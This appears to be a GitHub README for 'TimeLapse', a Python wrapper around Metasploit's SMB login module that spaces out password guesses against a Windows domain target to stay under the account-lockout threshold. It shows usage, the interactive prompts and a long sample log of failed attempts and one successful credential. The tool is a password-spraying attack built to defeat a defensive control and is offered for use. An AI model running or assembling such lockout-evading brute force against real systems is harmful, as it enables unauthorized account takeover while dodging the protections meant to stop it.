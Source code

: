 # TimeLapse
TimeLapse is a wrapper around the metasploit smb_login module which will allow you to input a SMB target, domain name, password policy settings and it will delay password guessing to ensure that it leaves suffient attempts for a user, while cycling every reset period without locking out the account.

##Usage:
$: ./TimeLapse.py 
Usage: ./TimeLapse.py username file password file

##Example:
./TimeLapse.py users.lst pass2.lst   

--- Time Lapse Password Guesser ---  
Please use with caution and intelligence  
  
Please enter SMB target: [example: 192.168.1.10]: 172.16.0.150  
Please enter the Domain name: [example: example.com]: example.com  
Please enter the tries before lockout: [example: 3]: 5  
Please enter the reset timer in minutes: [example: 30]: 30  
RHOSTS => 172.16.0.150  
SMBDOMAIN => example.com  
USER_FILE => users.lst  
PASS_FILE => pass_file.tmp  
[*] Spooling to file TimeLapse.log...  
[*] 172.16.0.150:445 SMB - Starting SMB login bruteforce  
[-] 172.16.0.150:445 SMB - Failed: 'example.com\jsmith:admin', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)  
[-] 172.16.0.150:445 SMB - Failed: 'example.com\jsmith:Admin', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)  
[-] 172.16.0.150:445 SMB - Failed: 'example.com\jsmith:Test123', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)  
[-] 172.16.0.150:445 SMB - Failed: 'example.com\msmith:admin', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)  
[-] 172.16.0.150:445 SMB - Failed: 'example.com\msmith:Admin', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)  
[-] 172.16.0.150:445 SMB - Failed: 'example.com\msmith:Test123', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)  
[-] 172.16.0.150:445 SMB - Failed: 'example.com\wsmith:admin', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)  
[-] 172.16.0.150:445 SMB - Failed: 'example.com\wsmith:Admin', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)  
[-] 172.16.0.150:445 SMB - Failed: 'example.com\wsmith:Test123', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)  
[*] Scanned 1 of 1 hosts (100% complete)  
[*] Auxiliary module execution completed  
Hit Maximum Attempts, sleeping for 35 minutes.  
RHOSTS => 172.16.0.150  
SMBDOMAIN => example.com  
USER_FILE => users.lst  
PASS_FILE => pass_file.tmp  
[*] Spooling to file TimeLapse.log...  
[*] 172.16.0.150:445 SMB - Starting SMB login bruteforce  
[-] 172.16.0.150:445 SMB - Failed: 'example.com\jsmith:guest', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)  
[+] 172.16.0.150:445 SMB - Success: 'example.com\jsmith:Winter2016'  
[*] 172.16.0.150:445 SMB - Domain is ignored for user jsmith  
[-] 172.16.0.150:445 SMB - Failed: 'example.com\msmith:guest', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)  
[-] 172.16.0.150:445 SMB - Failed: 'example.com\msmith:Winter2016', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)  
[-] 172.16.0.150:445 SMB - Failed: 'example.com\msmith:Guest', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)  
[-] 172.16.0.150:445 SMB - Failed: 'example.com\wsmith:guest', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)  
[-] 172.16.0.150:445 SMB - Failed: 'example.com\wsmith:Winter2016', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)  
[-] 172.16.0.150:445 SMB - Failed: 'example.com\wsmith:Guest', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 WordCount=0)  
[*] Scanned 1 of 1 hosts (100% complete)  
[*] Auxiliary module execution completed  
Hit Maximum Attempts, sleeping for 35 minutes.  
